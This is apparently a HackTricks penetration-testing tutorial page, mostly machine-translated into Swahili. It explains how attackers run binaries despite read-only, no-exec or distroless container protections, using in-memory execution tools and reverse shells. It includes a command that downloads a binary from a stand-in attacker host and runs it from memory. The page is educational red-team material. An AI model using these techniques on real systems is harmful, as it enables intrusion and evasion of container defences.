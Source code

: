 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In the following videos you can find the techniques mentioned in this page explained more in depth:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec scenario

Ni kawaida zaidi na zaidi kukutana na mashine za linux zilizowekwa na **read-only (ro) file system protection**, hasa katika kontena. Hii ni kwa sababu kuendesha kontena na mfumo wa faili wa ro ni rahisi kama kuweka **`readOnlyRootFilesystem: true`** katika `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Hata hivyo, hata kama mfumo wa faili umewekwa kama ro, **`/dev/shm`** bado itaandikwa, hivyo ni uongo hatuwezi kuandika chochote kwenye diski. Hata hivyo, folda hii itakuwa **imewekwa na no-exec protection**, hivyo ikiwa utashusha binary hapa huwezi **kuweza kuitekeleza**.

{% hint style="warning" %}
Kutoka kwa mtazamo wa timu nyekundu, hii inafanya **kuwa ngumu kupakua na kutekeleza** binaries ambazo hazipo kwenye mfumo tayari (kama backdoors au enumerators kama `kubectl`).
{% endhint %}

## Easiest bypass: Scripts

Kumbuka kwamba nilitaja binaries, unaweza **kutekeleza script yoyote** mradi tu mfasiri yuko ndani ya mashine, kama **shell script** ikiwa `sh` inapatikana au **python** **script** ikiwa `python` imewekwa.

Hata hivyo, hii haitoshi kutekeleza backdoor yako ya binary au zana nyingine za binary unazoweza kuhitaji kuendesha.

## Memory Bypasses

Ikiwa unataka kutekeleza binary lakini mfumo wa faili haukuruhusu, njia bora ya kufanya hivyo ni kwa **kuitekeleza kutoka kwenye kumbukumbu**, kwani **ulinzi hauwezi kutumika huko**.

### FD + exec syscall bypass

Ikiwa una baadhi ya injini za script zenye nguvu ndani ya mashine, kama **Python**, **Perl**, au **Ruby** unaweza kupakua binary ili kuitekeleza kutoka kwenye kumbukumbu, kuihifadhi katika file descriptor ya kumbukumbu (`create_memfd` syscall), ambayo haitalindwa na ulinzi huo na kisha kuita **`exec` syscall** ikionyesha **fd kama faili ya kutekeleza**.

Kwa hili unaweza kwa urahisi kutumia mradi [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Unaweza kupitisha binary na itaunda script katika lugha iliyoonyeshwa na **binary iliyoshinikizwa na b64 encoded** na maagizo ya **kufungua na kuondoa shinikizo** katika **fd** iliyoundwa kwa kuita `create_memfd` syscall na wito kwa **exec** syscall kuikimbia.

{% hint style="warning" %}
Hii haiwezi kufanya kazi katika lugha nyingine za scripting kama PHP au Node kwa sababu hazina njia yoyote ya **kawaida ya kuita raw syscalls** kutoka kwenye script, hivyo haiwezekani kuita `create_memfd` kuunda **memory fd** kuhifadhi binary.

Zaidi ya hayo, kuunda **regular fd** na faili katika `/dev/shm` hakutafanya kazi, kwani hutaruhusiwa kuikimbia kwa sababu **no-exec protection** itatumika.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ni mbinu inayokuruhusu **kubadilisha kumbukumbu ya mchakato wako** kwa kuandika tena **`/proc/self/mem`**.

Kwa hivyo, **kuweza kudhibiti msimbo wa mkusanyiko** unaotekelezwa na mchakato, unaweza kuandika **shellcode** na "kubadilisha" mchakato ili **kuendesha msimbo wowote wa kawaida**.

{% hint style="success" %}
**DDexec / EverythingExec** itakuruhusu kupakia na **kutekeleza** shellcode yako mwenyewe au **binary yoyote** kutoka **kumbukumbu**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Kwa maelezo zaidi kuhusu mbinu hii angalia Github au:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) ni hatua ya asili inayofuata ya DDexec. Ni **DDexec shellcode demonised**, hivyo kila wakati unapotaka **kufanya kazi na binary tofauti** huwezi kuanzisha tena DDexec, unaweza tu kuendesha memexec shellcode kupitia mbinu ya DDexec na kisha **kuwasiliana na demon hii ili kupitisha binaries mpya za kupakia na kuendesha**.

Unaweza kupata mfano wa jinsi ya kutumia **memexec kutekeleza binaries kutoka kwa PHP reverse shell** katika [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Kwa kusudi linalofanana na DDexec, mbinu ya [**memdlopen**](https://github.com/arget13/memdlopen) inaruhusu **njia rahisi ya kupakia binaries** kwenye kumbukumbu ili baadaye kuziendesha. Inaweza hata kuruhusu kupakia binaries zenye utegemezi.

## Distroless Bypass

### Nini distroless

Mizigo ya distroless ina sehemu tu za **muhimu kabisa zinazohitajika kuendesha programu au huduma maalum**, kama vile maktaba na utegemezi wa wakati wa kuendesha, lakini inatenga sehemu kubwa kama vile meneja wa pakiti, shell, au zana za mfumo.

Lengo la mizigo ya distroless ni **kupunguza uso wa shambulio wa mizigo kwa kuondoa sehemu zisizohitajika** na kupunguza idadi ya udhaifu ambao unaweza kutumiwa.

### Reverse Shell

Katika mizigo ya distroless huenda **usipate hata `sh` au `bash`** kupata shell ya kawaida. Hutaweza pia kupata binaries kama `ls`, `whoami`, `id`... kila kitu ambacho kawaida unakimbia kwenye mfumo.

{% hint style="warning" %}
Hivyo, **hutaweza** kupata **reverse shell** au **kuhesabu** mfumo kama kawaida unavyofanya.
{% endhint %}

Hata hivyo, ikiwa kontena lililovunjwa linaendesha kwa mfano flask web, basi python imewekwa, na hivyo unaweza kupata **Python reverse shell**. Ikiwa linaendesha node, unaweza kupata Node rev shell, na vivyo hivyo na lugha nyingi za **scripting**.

{% hint style="success" %}
Kwa kutumia lugha ya scripting unaweza **kuhesabu mfumo** kwa kutumia uwezo wa lugha hiyo.
{% endhint %}

Ikiwa hakuna **`read-only/no-exec`** ulinzi unaweza kutumia reverse shell yako **kuandika kwenye mfumo wa faili binaries zako** na **kuziendesha**.

{% hint style="success" %}
Hata hivyo, katika aina hii ya mizigo ulinzi huu kwa kawaida utawepo, lakini unaweza kutumia **mbinu za awali za utekelezaji wa kumbukumbu kuzipita**.
{% endhint %}

Unaweza kupata **mfano** wa jinsi ya **kutumia udhaifu wa RCE** kupata lugha za scripting **reverse shells** na kuendesha binaries kutoka kwenye kumbukumbu katika [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ikiwa unavutiwa na **kazi ya hacking** na kuhack yasiyoweza kuhackwa - **tunatafuta wafanyakazi!** (_kuandika na kuzungumza kwa kiswahili vizuri kunahitajika_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
